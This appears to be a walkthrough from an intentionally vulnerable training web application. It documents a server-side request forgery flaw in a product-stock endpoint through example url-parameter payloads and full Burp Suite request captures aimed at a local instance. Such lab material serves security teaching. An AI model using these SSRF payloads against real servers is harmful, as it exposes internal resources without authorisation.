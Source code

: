 # Server-Side Request Forgery (SSRF)
Server-side Request Forgery (SSRF) attack triggers the web application to perform requests for you.  This could be against the web application itself, website internally located resources, external systems on the infrastructure and more!

## Exploitation
**Prerequisites:** _None_

**Location:** _GET /products/stock/?url=...&id=..._

While the Angular application by default fetches the product stock by using the url parameter to specify _http://localhost:8081/products/stock/?id=ID_, a redirect to the same endpoint acting as a substitute for an external service, it can be manipulated to fetch alternative resources.  Below are two exploitation examples, one fetching an external webpage and the other fetching an internal resource:

    # Fetching external resource, google homepage
    GET /products/stock?url=http://google.com

    # Fetching internal resource, product information
    GET /products/stock?url=http://localhost:8081/products/1


Successful exploitation looks like:

    null ...

## Burp Suite Example Exploitation

    # First Request
    GET /products/stock?url=http://google.com HTTP/1.1
    Host: 127.0.0.1:8081
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    X-XSRF-TOKEN: 687cd1a5-41b1-4218-abb6-84922b321d2d
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=687cd1a5-41b1-4218-abb6-84922b321d2d; JSESSIONID=0DDDF48C1816DB9F1C48FB29C3EE9774
    Connection: close

    # Second Request
    GET /products/stock?url=http://localhost:8081/products/1 HTTP/1.1
    Host: 127.0.0.1:8081
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    X-XSRF-TOKEN: 687cd1a5-41b1-4218-abb6-84922b321d2d
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=687cd1a5-41b1-4218-abb6-84922b321d2d; JSESSIONID=0DDDF48C1816DB9F1C48FB29C3EE9774
    Connection: close



